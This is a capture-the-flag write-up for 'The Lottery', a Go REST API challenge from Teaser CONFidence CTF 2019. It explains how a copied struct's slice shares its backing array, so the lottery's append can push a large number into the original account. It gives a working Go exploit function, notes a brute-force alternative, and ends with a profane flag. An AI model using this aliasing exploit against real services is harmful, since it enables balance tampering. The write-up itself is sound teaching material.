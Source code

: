 # The Lottery

The **last solved** challenge at 'Teaser CONFidence CTF 2019'.

## Logic

The challenge is a REST API written in Go. It has a functionality of choosing
a lottery winner along with the accounts *management*.

### Package `app`

Account:
```go
type Account struct {
	Name    string `json:"name"`
	Amounts []int  `json:"amounts"`
}
```

Basically, we may do two things with the account:
 - `Account.AddAmount(50)` adds provided amount (must be wihtin `0-99`),
        also total number of amounts must be less than 5,
 - `Service.LotteryAdd(account)` signs user up to the lottery.

You have two options to get a flag - your account must:
 1. Be a millionaire (sum of amounts > 1,000,000),
 2. Be a lottery's winner.

### Package `transport`

There is implementation of HTTP handlers and routing. All we need to know is:
flag is served with the account of millionaire or lottery winner.

## Vulnerabilities

Let's take a look how exactly `lottery` works.

When we invoke `Service.LotteryAdd` method it passes the copy of `account`
object to lottery. It means we have the same object (literally bytes) in two
places: `lottery` (copy) and `service` (original).


The next step: `lottery.evaluate` loops over previously copied accounts and does:
```go
amounts := append(account.Amounts, randInt(999913, 3700000))
```

Pretty cool. It adds a really big number (~1m) to `account.Amounts`. If only it
could be saved at the 'original' account too...

Then it checks if total sum of amounts and our random number is equal to
`1259264`.

### Solution 1 (brute force)

Regardless of added amounts to account, we have only one value that wins the
lottery (in range `999913-3700000`).

```python
>>> 3700000 - 999913
2700087
```

Theoretically, to get a flag you may just create accounts and after
`LOTTERY_PERIOD` duration check if this user is a lottery winner.

For each try we must do three HTTP requests:
 1. Create an account,
 2. Add account to lottery,
 3. After `LOTTERY_PERIOD` duration check if the account is a winner.

 Let's do a quick math:
```python
>>> 2700087*3        # total number of requests
8100261
>>> 8100261 / 2500   # divide by 2500 rps (are you capable of doing more?)
3240.1044
>>> 3240.1044 / 3600 # how many hours? 
0.90
```

As you can see, it was possible to get a flag within one hour! It wasn't
intended solution, but probably some teams managed to use it.
Congratulations though.

### Solution 2 (go slices)

Let's go back to previously noticed amounts `append` with a big number.
So, how exactly does it work?

We append an `Account`'s attribute which is a `[]int` slice. 
```go
type Account struct {
	Amounts []int // This is a []int slice.
}
```
However, what's a slice? (Worth reading: https://blog.golang.org/go-slices-usage-and-internals)

Definition of slice:
> A slice is a descriptor of an array segment. It consists of a pointer to the
> array, the length of the segment, and its capacity (the maximum length of
> the segment).

![Slice visualization](images/go-slices-usage-and-internals_slice-struct.png)

In fact, a slice is a pointer to the memory and not the memory itself! It means
we are able to write to the *original* `amounts` memory at the lottery.
However, slice is kind of like the `vector` in C++. If you will append the
element over the available capacity, it will reallocate itself to the another
bigger memory chunk. Therefore we must ensure, reallocation won't happen.

Our strategy is creating two slices which point to the same memory. We copy
`Account` struct when adding to the `Lottery`, so the slice will be also
copied. When it comes to the capacity - we need to have such length and
capacity that `append` won't reallocate the slice (and just write to the
memory). `MaxAmountsLen = 4`, so we may exploit it by `capacity=4` and
`length=3`. In this case adding another item will just overwrite fourth element.

Anyway, here is the code:
```go
func HackLottery() {
  // Create new service.
  s := NewService(context.Background(), time.Millisecond, time.Minute)

  // Add new account.
  a, _ := s.AccountAdd()

  // Add '90' amount three times.
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)

  // Right now we have a slice with three values [90, 90, 90]
  // Do you know what's the capacity and length of it?
  // Length=3, Capacity=4.
  // It means that after the next 'append' we won't reallocate to the new memory.

  // We would like to extend our original slice to length=4 and then wait for
  // the lottery's append to overwrite the last item.

  // Add account to the 'Lottery'.
  s.LotteryAdd(a.Name)
  // Immediately after extend 'amounts' slice.
  s.AccountAddAmount(a.Name, 90)

  // 'Lottery.evaluate' should overwrite the last element in the original amounts.
  s.lottery.evaluate()

  // Does it work?
  a, _, _ = s.AccountGet(a.Name)
  fmt.Printf("%v\n", a.Amounts)
  // [90 90 90 1723342]
  // Yay, you are a millionaire.
}
```

Do you know why it doesn't work for slices with capacity less than 4?

## Flag

```sh
$ python hack.py       
p4{fucking-go-slices.com}
```

## Survey

![Which challenge was the coolest](images/bestchall.png)

Accordingly to the poll, 'The Lottery' was the second coolest challenge!
Thank you.

https://github.com/p4-team/ctf/tree/writeup/2019-03-17-confidence2019
